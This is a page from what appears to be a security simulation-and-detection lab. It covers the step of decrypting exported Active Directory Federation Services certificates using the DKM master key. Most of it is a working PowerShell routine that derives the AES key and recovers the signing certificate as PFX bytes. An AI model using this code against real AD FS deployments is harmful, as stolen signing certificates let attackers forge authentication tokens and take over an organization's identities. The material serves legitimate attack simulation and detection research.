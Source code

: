 # Decrypt Active Directory Federation Services (AD FS) Certificates

After [exporting AD FS certificates](exportADFSCertificatesEncryptedFormat.md) and [obtaining the AD FS DKM master key](exportADFSDKMMasterKeyFromDC.md), we can use the key value to derive a symmetric key and decrypt the AD FS certificates.

## Preconditions
* Endpoint: ADFS01 or WORKSTATION6
    * Even when this step would happen outside of the organization, we can use the same PowerShell session on one of the endpoints where we [exported AD FS certificates](exportADFSCertificatesEncryptedFormat.md) and [obtained the AD FS DKM master key](exportADFSDKMMasterKeyFromDC.md) from to go through the simulation steps.
    * [AD FS DKM Master Key](exportADFSDKMMasterKeyFromDC.md)
        * Use the output from this step and pass it to the PowerShell snippet below as the variable `$key`.
    * [AD FS Certificate (Encrypted format)](exportADFSCertificatesEncryptedFormat.md)
        * Use the output from this step and pass it to the PowerShell snippet below as the variable `$encPfx`.

## Decrypt Certificate

```PowerShell
$encPfxBytes=[System.Convert]::FromBase64String($encPfx)
$guid=        $encPfxBytes[8..25]  # 18 bytes
$KDF_oid=     $encPfxBytes[26..36] # 11 bytes
$MAC_oid=     $encPfxBytes[37..47] # 11 byte
$enc_oid=     $encPfxBytes[48..58] # 11 bytes
$nonce=       $encPfxBytes[59..92] # 34 bytes
$iv=          $encPfxBytes[93..110] # 18 bytes
$ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
$cipherMAC =  $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]

# Create the label
$label = $enc_oid + $MAC_oid

# Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
# As the key size is only 16 bytes (128 bits), no need to loop.
$hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
$hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
$decryptionKey = $hmacOutput[0..15]
Write-Verbose "Decryption key:"
Write-Verbose "$($decryptionKey|Format-Hex)"
# Create a decryptor and decrypt
$Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
$Crypto.Mode="CBC"
$Crypto.KeySize = 128
$Crypto.BlockSize = 128
$Crypto.Padding = "None"
$Crypto.Key = $decryptionKey
$Crypto.IV = $iv[2..17]
$decryptor = $Crypto.CreateDecryptor()

# Create a memory stream and write the cipher text to it through CryptoStream
$ms = New-Object System.IO.MemoryStream
$cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
$cs.Write($ciphertext,0,$ciphertext.Count)
$cs.Close()
$cs.Dispose()

# Get the results
$pfx = $ms.ToArray()
$ms.Close()
$ms.Dispose()
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_27_decrypt_certificate.png)

## Output

Use the variable `$pfx` (cipher text) for the next step where we [export the AD FS certificate as a PFX file](exportADFSCertificatesAsPfxFiles.md).

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)